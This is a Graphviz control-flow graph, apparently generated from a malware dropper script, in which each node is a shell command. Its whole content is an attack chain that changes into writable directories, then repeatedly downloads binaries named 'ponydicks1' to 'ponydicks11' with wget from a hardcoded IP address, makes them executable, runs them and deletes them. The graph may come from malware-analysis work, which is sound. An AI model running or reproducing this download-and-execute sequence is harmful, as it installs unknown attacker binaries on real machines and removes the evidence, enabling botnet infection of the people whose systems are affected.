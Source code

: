 digraph {
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/system "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 10 [label="||,"];
10 [label="wget http://5.154.191.146/ponydicks1 "];
10 -> 12 [label=";,"];
12 [label="chmod +x ponydicks1 "];
12 -> 14 [label=";,"];
14 [label="./ponydicks1 "];
14 -> 16 [label=";,"];
16 [label="rm -rf ponydicks1 "];
16 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/system "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 28 [label="||,"];
28 [label="wget http://5.154.191.146/ponydicks2 "];
28 -> 30 [label=";,"];
30 [label="chmod +x ponydicks2 "];
30 -> 32 [label=";,"];
32 [label="./ponydicks2 "];
32 -> 34 [label=";,"];
34 [label="rm -rf ponydicks2 "];
34 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/system "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 46 [label="||,"];
46 [label="wget http://5.154.191.146/ponydicks3 "];
46 -> 48 [label=";,"];
48 [label="chmod +x ponydicks3 "];
48 -> 50 [label=";,"];
50 [label="./ponydicks3 "];
50 -> 52 [label=";,"];
52 [label="rm -rf ponydicks3 "];
52 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/system "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 64 [label="||,"];
64 [label="wget http://5.154.191.146/ponydicks4 "];
64 -> 66 [label=";,"];
66 [label="chmod +x ponydicks4 "];
66 -> 68 [label=";,"];
68 [label="./ponydicks4 "];
68 -> 70 [label=";,"];
70 [label="rm -rf ponydicks4 "];
70 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/system "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 82 [label="||,"];
82 [label="wget http://5.154.191.146/ponydicks5 "];
82 -> 84 [label=";,"];
84 [label="chmod +x ponydicks5 "];
84 -> 86 [label=";,"];
86 [label="./ponydicks5 "];
86 -> 88 [label=";,"];
88 [label="rm -rf ponydicks5 "];
88 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/system "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 100 [label="||,"];
100 [label="wget http://5.154.191.146/ponydicks6 "];
100 -> 102 [label=";,"];
102 [label="chmod +x ponydicks6 "];
102 -> 104 [label=";,"];
104 [label="./ponydicks6 "];
104 -> 106 [label=";,"];
106 [label="rm -rf ponydicks6 "];
106 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/system "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 118 [label="||,"];
118 [label="wget http://5.154.191.146/ponydicks7 "];
118 -> 120 [label=";,"];
120 [label="chmod +x ponydicks7 "];
120 -> 122 [label=";,"];
122 [label="./ponydicks7 "];
122 -> 124 [label=";,"];
124 [label="rm -rf ponydicks7 "];
124 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/system "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 136 [label="||,"];
136 [label="wget http://5.154.191.146/ponydicks8 "];
136 -> 138 [label=";,"];
138 [label="chmod +x ponydicks8 "];
138 -> 140 [label=";,"];
140 [label="./ponydicks8 "];
140 -> 142 [label=";,"];
142 [label="rm -rf ponydicks8 "];
142 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/system "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 154 [label="||,"];
154 [label="wget http://5.154.191.146/ponydicks9 "];
154 -> 156 [label=";,"];
156 [label="chmod +x ponydicks9 "];
156 -> 158 [label=";,"];
158 [label="./ponydicks9 "];
158 -> 160 [label=";,"];
160 [label="rm -rf ponydicks9 "];
160 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/system "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 172 [label="||,"];
172 [label="wget http://5.154.191.146/ponydicks10 "];
172 -> 174 [label=";,"];
174 [label="chmod +x ponydicks10 "];
174 -> 176 [label=";,"];
176 [label="./ponydicks10 "];
176 -> 178 [label=";,"];
178 [label="rm -rf ponydicks10 "];
178 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/system "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 190 [label="||,"];
190 [label="wget http://5.154.191.146/ponydicks11 "];
190 -> 192 [label=";,"];
192 [label="chmod +x ponydicks11 "];
192 -> 194 [label=";,"];
194 [label="./ponydicks11 "];
194 -> 195 [label=";,"];
}
